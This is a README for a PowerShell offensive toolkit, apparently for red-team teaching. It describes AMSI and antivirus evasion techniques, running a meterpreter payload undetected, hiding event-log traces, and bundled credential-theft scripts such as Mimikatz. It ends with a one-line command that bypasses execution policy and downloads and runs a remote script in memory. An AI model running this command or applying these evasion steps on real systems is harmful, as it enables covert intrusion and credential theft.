 # PowerTheShell

This repository was created for teaching / demonstration purposes and is based on a post by <a href="https://twitter.com/_xpn_" rel="nofollow">@<em>xpn</em></a>, more details available <a href="https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/" rel="nofollow">here</a>.

The goal is:

1. Perform everything in memory without touching the hard disk
2. Run well-known scripts without being intercepted by the AV
3. Execute payload meterpreter without being intercepted by the AV
4. Minimize tracks in EventViewer

The main script Console-Setup.ps1 performs one of the following AMSI evasion techniques:

1. Reflection by Matt Graeber (@mattifestation)
2. Patching by Tal Liberman (@Tal_Liberman)
3. Erro forcing by Adam Chester (@_xpn_)

The main script also performs the necessary commands for protecting our operational security:

1. bypass block bypass script by Adam Chester (@_xpn_)

Once the setup phase is over, you can run the console and all its scripts without using any obfuscation technique. In fact, only the commands necessary for AMSI evasion technique are obfuscated.

This repository contains well-known scripts such as Invoke-Mimikatz Invoke-Powershell Invoke-CrerdentialPhisher that
they have been patched or customized for solving issue and easy integration. The customization performed do not compromise the signature of the scripts.

# Instructions

To start the console run this line

powershell -Execution bypass "iex((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4rtik/PowerTheShell/master/Console-Setup.ps1'))"
